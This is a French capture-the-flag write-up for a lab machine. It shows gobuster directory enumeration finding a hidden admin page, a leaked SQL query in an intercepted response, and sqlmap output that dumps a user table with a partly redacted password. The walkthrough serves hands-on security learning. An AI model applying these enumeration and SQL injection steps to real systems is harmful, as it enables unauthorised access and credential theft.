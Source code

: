 Après avoir cherche dans tout les sens, que ce soit mqtt, dns, etc. je me décide a rescan avec d'autre wordlist.

Puis, le graal :
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://expose.thm:1337/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 315] [--> http://expose.thm:1337/admin/]
/javascript           (Status: 301) [Size: 320] [--> http://expose.thm:1337/javascript/]
/phpmyadmin           (Status: 301) [Size: 320] [--> http://expose.thm:1337/phpmyadmin/]
/admin_101            (Status: 301) [Size: 319] [--> http://expose.thm:1337/admin_101/]
Progress: 40622 / 56294 (72.16%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 40720 / 56294 (72.33%)
===============================================================
Finished
===============================================================
```
Il y enfaite une page **/admin_101** !!!

# Exploitation
Je voulais la brute-force avec hydra, mais après un test avec un compte aléatoire pour capturer la requête avec burpsuite, j'ai aussi intercepter la réponse que voici:
```
HTTP/1.1 200 OK
Date: Thu, 02 May 2024 20:33:07 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 111
Connection: close
Content-Type: application/json

{
    "status": "error",
    "messages": [
        "SELECT * FROM user WHERE email = 'hacker@root.thm'"
    ]
}
```
Mon choix ce porte donc naturellement vers une injection SQL, on va utiliser l'outil **SQLMap** pour trouver notre bonheur.
```
Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | V[...]1                              |
+----+-----------------+---------------------+--------------------------------------+
```
```
```